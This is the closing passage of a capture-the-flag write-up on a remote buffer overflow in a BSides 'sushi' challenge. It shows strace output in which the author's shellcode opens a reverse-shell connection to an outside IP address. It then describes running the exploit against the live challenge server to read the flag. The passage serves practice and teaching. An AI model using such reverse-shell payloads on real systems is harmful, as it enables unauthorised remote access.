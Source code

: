 ```
root@mankrik:~/bsides# strace -p `ps -auwwx | grep sushi | grep -v python | grep -v grep | awk '{print $2}'`  
warning: bad ps syntax, perhaps a bogus '-'?  
See http://gitorious.org/procps/procps/blobs/master/Documentation/FAQ  
Process 52194 attached - interrupt to quit  
read(0, "", 4096)            = 0  
write(1, "Sorry, $0.-23 is not enough.n", 29) = 29  
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3  
connect(3, {sa_family=AF_INET, sin_port=htons(80), sin_addr=inet_addr("54.65.5.90")}, 16^C <unfinished ...>  
Process 52194 detached  
root@mankrik:~/bsides#   
```

Woot! Our shell code is trying to make the outbound reverse shell connection!

The only thing left to do here is to change the exploit to point at the sushi server in the live production instance and exploit it. Once the shell is achieved we simply use "cat flag.txt" and receive the flag.

A fun challenge for me this one as I had been waiting for an opportunity to practice remote overflow writing and also this was the first time I got my feet wet with binjitsu.

Write up by Dacat